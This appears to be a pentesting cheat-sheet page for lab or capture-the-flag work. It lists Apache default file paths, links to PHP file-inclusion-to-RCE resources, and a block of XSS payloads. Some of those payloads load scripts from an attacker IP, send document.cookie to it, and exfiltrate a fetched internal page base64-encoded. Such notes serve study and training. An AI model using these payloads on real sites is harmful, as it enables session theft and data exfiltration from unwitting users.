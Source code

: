 # Apache & Languages

## Apache

Find out which OS it's running on first from nmap scan

```
Root: /var/www
for multiple vhosts root is /var/www/[site1] and goes on
Vhost config: /etc/apache2/sites-enabled/000-default.conf
.htaccess and .htpasswd are at root of server
```

{% embed url="https://cwiki.apache.org/confluence/display/httpd/DistrosDefaultLayout#DistrosDefaultLayout-Apachehttpd2.4defaultlayout(apache.orgsourcepackage):" %}

## PHP

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md" %}

{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html" %}

If there is an input field where it fetches a file, you can view the source of php file itself or the apache log for LFI2RCE

## Java

### XSS

File transfer and reverse shell

```
### local XSS
<img src=x onerror=alert(1) />

### load image
<img src="http://10.10.14.6/image.png" />

### load script
<script src="http://10.10.14.6/script.js"></script>

fetch('http://10.10.14.6/from_script/' + document.cookie);

### load script
<script>
fetch('http://alert.htb/messages.php')
.then(resp => resp.text())
.then(body => {
    fetch("http://10.10.14.6/exfil?body=" + btoa(body));
})
</script>
```

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" %}
